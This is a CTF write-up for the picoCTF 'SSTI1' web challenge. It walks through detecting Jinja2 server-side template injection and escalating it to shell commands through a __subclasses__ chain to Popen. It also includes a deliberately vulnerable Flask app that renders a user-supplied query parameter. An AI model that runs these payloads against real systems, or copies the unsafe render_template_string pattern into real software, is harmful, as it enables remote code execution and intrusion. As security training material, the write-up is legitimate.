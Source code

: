 # SSTI1

[picoCTF](https://play.picoctf.org/practice/challenge/492)

### Web Exploitation

- This is web exploitation CTF.

- A web application running which outputs user input.

- so we try to figure out if input can be executed.

- typing `<script alert(1)</script>` did execute, we can do XSS.

- Since the application is not JS based and JS is only on the front end we can't do much. So we try to do SSTI (Server side template injection).

- We try to see which template engine is the server running. 

### Detection

- First we need to see if there can be a template injection. Most templates use symbols like `$ { } {{ }} {% %}` so if we input something similar we should get a response that is not usual like an error of execution of that template.

- You can use ``${{<%[%'"}}%\``  to see if  an error occurs. If it does then we can do template injection. But this can also blow your cover so try to be smart on this.

- Now we have to find out which template engine it is. When I opened the request in Burp suite I saw that response was from a Python server so I know that it is a python template. 

- ![image](/home/som/Downloads/template-decision-tree.png)

- this is how we decide which template it is. This does not cover all the templates. If you could find out with some other way what the language is you can narrow down the language search. 

- so since the packet told me the response was from python i tried `{{ 7*7}}`and result came back as 49. then `{{7*'7'})` returned `7777777` so i knew it was `jinja2` template engine. [Server-side template injection | Web Security Academy](https://portswigger.net/web-security/server-side-template-injection) This explains that.

- Now we know this vulnerability exists.

---

### Exploitation

- Before we deep dive rad this [Exploiting server-side template injection vulnerabilities | Web Security Academy](https://portswigger.net/web-security/server-side-template-injection/exploiting)

- Now here we know we are fighting jinja2 template engine. best way to learn is to look for common vulnerabilities and look through the documentation.

- In my research I found out about template variable. There are a few but only few were necessary. Now the jinja2 template runs on a sandbox and we need a way to get out of that sandbox. Something that can talk to the underlying os.

- In flask apps there is a special variable `g` to store information during a request that means it holds the ability to reference few other variables too one of which might have a function that can make a call outside the sandbox.

**TODO: learn more here**

- `__mro__` returns base class of a class.

- `__subclasses__()` is a method that list all the subclasses of a class.

- so now chain them together. `{{ g.__class__.__mro__[1].__subclasses__()}}`
  
  - `g.__class__` gives us the `<class 'object'>`
  
  - `g.__class__.__mro__` give `<class 'object'>, <class 'object'>`
  
  - we take the second object and look at the subclasses it has. `g.__class__.__mro__.__subclasses__()` this gives us a shit ton of function available.
  
  - I searched for `os`, `open`, `path`, `IO` and similar names.
  
  - then I found out the function `popen` and read about it. Then I searched for which comma was after it, it was 357 so `popen` was at 356th location.
  
  - `g.__class__.__mro__[1].__subclasses__()[356]('ls')` and it returned the address of the answer. Now we need to convert it to data.
  
  - We use communicate for that and some extra arguments. 
  
  - `g.__class__.__mro__[1].__subclasses__()[356]('ls', shell=True, stdout=-1).communicate()[0]` this show all the files in the current folder and there is a file named flag.
  
  - `g.__class__.__mro__[1].__subclasses__()[356]('cat flag', shell=True, stdout=-1).communicate()[0]` this gives us the actual flag and voila.
  
  - Let's look at `popen` 
    
    - 1st argument is the command that needs to run. 
    
    - 2nd tells python to run the command inside a shell, so basically `/bin/sh -c` and now it supports all type of shorthands like `||, && and *`.
    
    - 3rd argument sets the standard output of the process to be captured via pipe. Normal mode it is set to `subprocess.PIPE` which is same as -1.
    
    - `.communiocate()` waits for the process to finish and returns a tuple `(stdout_data, stderr_data)`. we take out the data by using `[0]`
  
  - `os.popen('cat flag').read()` → simpler, directly returns output.
  
  - `subprocess.Popen(...)` → more flexible, can capture both stdout and stderr, set env vars, etc., but requires `.communicate()` to actually get the data.

- `__class__` tell which class you are.

- `__mro__` is Method Resolution Order. It's a tuple of classes that python searches when looking up a method

- ```
  "hello".__class__
  # <class 'str'>
  
  
  int.__mro__
  # (<class 'int'>, <class 'object'>)
  
  ```
  
  - The `object` here by `__mro__` is the base of all classes in python. So now we can use any python method that the app can use.

- `__subclasses__` tell all the methods available to the the object and refer to it.

- so now we can just use any method just by using indexing.

---

### Practice

- Here we will make a simple SSTI exploitable flask app in python.

- ```python
  from flask import Flask, request, render_template_string
  
  app = Flask(__name__)
  
  @app.route("/")
  def home():
      if request.args.get('c'):
          return render_template_string(request.args.get('c'))
      else:
          return "Bienvenue!"
  
  if __name__ == "__main__":
      app.run(debug=True)
  ```

- Save this, install python and run it.

- Now what ever you pass in the arguments `c=...`will be executed by the server
